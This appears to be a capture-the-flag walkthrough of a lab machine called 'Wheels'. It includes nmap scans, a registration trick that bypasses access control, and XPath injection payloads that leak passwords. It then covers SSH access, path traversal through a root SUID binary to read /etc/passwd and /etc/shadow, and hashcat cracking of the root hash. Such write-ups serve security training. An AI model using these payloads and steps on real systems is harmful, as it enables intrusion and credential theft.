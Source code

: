 First start enumeration using nmap

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn <IP>`

```
# Nmap 7.93 scan initiated Fri Dec 30 09:06:46 2022 as: nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn 192.168.108.202
Increasing send delay for 192.168.108.202 from 0 to 5 due to 18 out of 59 dropped probes since last increase.
Increasing send delay for 192.168.108.202 from 5 to 10 due to 60 out of 198 dropped probes since last increase.
Increasing send delay for 192.168.108.202 from 80 to 160 due to 49 out of 162 dropped probes since last increase.
Increasing send delay for 192.168.108.202 from 160 to 320 due to 11 out of 28 dropped probes since last increase.
Increasing send delay for 192.168.108.202 from 640 to 1000 due to 13 out of 41 dropped probes since last increase.
Warning: 192.168.108.202 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.108.202
Host is up (0.19s latency).
Not shown: 37958 closed tcp ports (conn-refused), 27575 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Dec 30 09:08:14 2022 -- 1 IP address (1 host up) scanned in 88.18 seconds
```

now know what ports are open, run nmap default scripts to know what services are running on those ports.

`nmap -sC -sV -oN normal.tcp -p 22,80 -Pn  <IP>`

```
# Nmap 7.93 scan initiated Fri Dec 30 09:08:56 2022 as: nmap -sC -sV -oN normal.tcp -p 22,80 -Pn 192.168.108.202
Nmap scan report for 192.168.108.202
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Wheels - Car Repair Services
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 30 09:09:17 2022 -- 1 IP address (1 host up) scanned in 20.96 seconds
```


now know what service is running, let's start enumeration with port 80 (http)

![image](https://user-images.githubusercontent.com/87468669/211496830-63ca27b2-bdf9-4e36-b46a-be768d1a14f0.png)

We discover a webserver running on port 80. After opening it in a browser, we are directed to a homepage for a car service entitled `Wheels Car Service`

![image](https://user-images.githubusercontent.com/87468669/211497683-28b5e6a5-7b4f-40a5-bb5d-d2dfe6cd598d.png)

We register with `nighth@hacker.com` and `12345` as the password and login. We are unable to access `portal.php`, and receive an `Access Denied` message. However, during our initial enumeration of the `portal.php` page, we saw a footer with the contact e-mail as `info@wheels.service`. Since there is no e-mail verification when registering, we can try registering with `nighthawk@wheels.service` as the email. 

![image](https://user-images.githubusercontent.com/87468669/211497790-3ce9b893-aea0-41b6-8298-6256f7bedc83.png)

After logging in with `nighthawk@wheels.service`, we are able to successfully login and access the Employee portal. The `portal.php` page has an option to filter users by services, specifically `car & bike`. After clicking on each filter, we see two sets of what appear to be usernames.

![image](https://user-images.githubusercontent.com/87468669/211497915-98492ae1-812d-4ad4-8288-cde8ff85a39d.png)

bike filter... now let's intercept requests with burpsuite.

![image](https://user-images.githubusercontent.com/87468669/211498281-2b77c5d5-76c5-42a2-aa2d-dcc3fe2bd960.png)

intercepted requests using burpsuite, replace the `bike` filter with `test`, we got an XML error: `test entity not found`. this looks like a potential  xpath injection. let's test for xpath injection.

###### XPATH Injection
The previous error leads us to believe an XPATH Injection is a viable attack worth testing.

When passing `')] | //user/*[contains(*,'` in the `work` parameter (found from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md)), the response displays 6 empty Boxes.

Let's attempt to fuzz this parameter with the following payload:

```
%27)%5D/password%20%7C%20a%5Bcontains(a,%27
```

We insert the payload into the `work` parameter

![image](https://user-images.githubusercontent.com/87468669/211497111-634a5a9d-ad21-4602-9c43-a3dae81a3bb4.png)

This reveals a list of passwords that do not have any usernames associated with them.

```
Iamrockinginmyroom1212
iamarabbitholeand7875
johnloveseverontr8932
lokieismyfav!@#12
alreadydead$%^234
lasagama90809!@
```

Now we have some passwords, and usernames, let's try ssh using those creds.
The first Password in the list was `Iamrockinginmyroom1212` and the first name, when enabling the `car` filter, is `bob`. This may indicate this user has this password. We can SSH into user `bob` with password `Iamrockinginmyroom1212` and gain a low privilege shell.

![image](https://user-images.githubusercontent.com/87468669/211497196-80e62bc7-a407-42e3-8d5a-979f8cc7af86.png)

Bull's eye we are in. let's escalate privs.

```
bob@wheels:/opt$ ls -al
total 28
drwxr-xr-x  2 root root  4096 May 11  2022 .
drwxr-xr-x 20 root root  4096 Jan  7  2021 ..
-rwsr-sr-x  1 root root 16808 May 11  2022 get-list
bob@wheels:/opt$ ./get-list 


Which List do you want to open? [customers/employees]: customers
Opening File....

Michael
Christopher
Jessica
Matthew
Ashley
Jennifer
Joshua
Amanda
Daniel
David
James
Robert
John
Joseph

bob@wheels:/opt$ 
```

In the `/opt` directory, found an suid binary `get-list` owned by root. running the binary asks us what file to open. as we can see a
When the program asks us which list we want to open, it only accepts the specified amount as an input, making a buffer overflow a non-viable attack.

Next, it checks if any of the following characters are present: `;` `&` `|`.
If they are present, the program immediately terminates.
If they are not present, the program checks if either `customers` or `employees` options are present.
If neither are present, the programs prints `Oops something went wrong!!` and exits the program.
If those options are present, the program prints `Opening File....` and proceeds to `cat` out the `/root/details/%s`.
With this logic in mind, we can attempt to open the **/etc/passwd/** file with the following input:

```
bob@wheels:/opt$  ./get-list
Which List do you want to open? [customers/employees]: ../../etc/passwd #employees
Opening File....
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
bob:x:1000:1000::/home/bob:/bin/sh
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
```

We have successfully viewed the **/etc/passwd** file. We can follow the same process to view **/etc/shadow**.

```
bob@wheels:/opt$  ./get-list
Which List do you want to open? [customers/employees]: ../../etc/shadow #employees
Opening File....
root:$6$jgsanIAwx1.w9V/.$cOWVUY1EiX.hbXPY//o8vDug9rIqLuzjs6KPzz6V8RM/4nK.Z1UXacdZW2Lj2J6yK/lZRC2uLbZ/bdEtWhbJu0:19066:0:99999:7:::
mysql:!:19066:0:99999:7:::
```

Now that we can view the root user's hash, we can attempt to crack it with `hashcat`.

```
root:$6$jgsanIAwx1.w9V/.$cOWVUY1EiX.hbXPY//o8vDug9rIqLuzjs6KPzz6V8RM/4nK.Z1UXacdZW2Lj2J6yK/lZRC2uLbZ/bdEtWhbJu0:19066:0:99999:7:::
```

First, we copy the hash to a file.

```
echo "$6$jgsanIAwx1.w9V/.$cOWVUY1EiX.hbXPY//o8vDug9rIqLuzjs6KPzz6V8RM/4nK.Z1UXacdZW2Lj2J6yK/lZRC2uLbZ/bdEtWhbJu0." > hash
```

```
hashcat -m 1800 -a 0 hash $rockyou --force -o cracked
...
$6$jgsanIAwx1.w9V/.$cOWVUY1EiX.hbXPY//o8vDug9rIqLuzjs6KPzz6V8RM/4nK.Z1UXacdZW2Lj2J6yK/lZRC2uLbZ/bdEtWhbJu0.:highschoolmusical
```

The password is `highschoolmusical`. We can `SSH` in as the root user.

![image](https://user-images.githubusercontent.com/87468669/211500917-32dbfcb0-3b4f-461a-9df0-f2bed0e3b0e6.png)

Boom!!! we are root.🤠🤠
